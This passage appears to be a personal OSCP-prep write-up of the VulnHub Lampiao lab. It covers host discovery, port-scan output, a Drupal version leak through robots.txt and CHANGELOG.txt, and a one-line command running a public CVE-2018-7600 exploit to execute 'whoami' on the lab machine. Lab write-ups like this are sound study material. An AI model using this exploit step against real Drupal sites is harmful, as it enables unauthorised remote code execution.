

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/VulnHub/Lampiano/index.html · generator: mkdocs

# Lampiao


# Netdiscover
![[Pasted image 20220505075716.png]]

```text
192.168.1.141
```

# Port scan
```text
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  tcpwrapped syn-ack ttl 64
1898/tcp open  http       syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))

```


# Port 80
![[Pasted image 20220505112416.png]]

# Port 1898

![[Pasted image 20220505112501.png]]

Robots.txt has interesting entry: `Disallow/CHANGELOG.txt`

![[Pasted image 20220505112942.png]]

Found an [exploit for drupal 7 < 7.57] (https://github.com/pimps/CVE-2018-7600)

### RCE via CVE-2018-7600
```bash
./drupa7-CVE-2018-7600.py -c whoami http://lampiano:1898/
```

![[Pasted image 20220505113408.png]]
